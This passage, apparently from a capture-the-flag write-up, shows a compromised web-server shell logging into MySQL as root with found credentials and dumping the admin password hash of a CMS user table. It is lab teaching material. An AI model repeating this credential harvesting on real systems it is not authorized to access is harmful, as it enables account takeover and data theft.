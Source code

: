 We got `MySQL` creds, let's login to that database:

```sh
www-data@skynet:/var/www/html/**/administrator$ mysql -u root -p
Enter password: 

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cuppa              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use cuppa;

mysql> show tables;
+--------------------------+
| Tables_in_cuppa          |
+--------------------------+
| cu_articles              |
| cu_categories            |
| cu_menu_item_type        |
| cu_menu_items            |
| cu_menu_items_extra_data |
| cu_menus                 |
| cu_permissions           |
| cu_tables                |
| cu_user_groups           |
| cu_users                 |
+--------------------------+
10 rows in set (0.00 sec)

mysql> desc cu_users;
+---------------+--------------+------+-----+---------+----------------+
| Field         | Type         | Null | Key | Default | Extra          |
+---------------+--------------+------+-----+---------+----------------+
| id            | int(11)      | NO   | PRI | NULL    | auto_increment |
| name          | varchar(45)  | NO   |     | NULL    |                |
| email         | varchar(45)  | NO   |     | NULL    |                |
| username      | varchar(45)  | NO   |     | NULL    |                |
| password      | varchar(250) | NO   |     | NULL    |                |
| enabled       | int(11)      | NO   |     | 1       |                |
| user_group_id | int(11)      | NO   | MUL | NULL    |                |
+---------------+--------------+------+-----+---------+----------------+
7 rows in set (0.00 sec)

mysql> select username,password from cu_sers;
ERROR 1146 (42S02): Table 'cuppa.cu_sers' doesn't exist
mysql> select username,password from cu_users;
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | b686468aec2c71e1783375763dca9b7e |
+----------+----------------------------------+
```
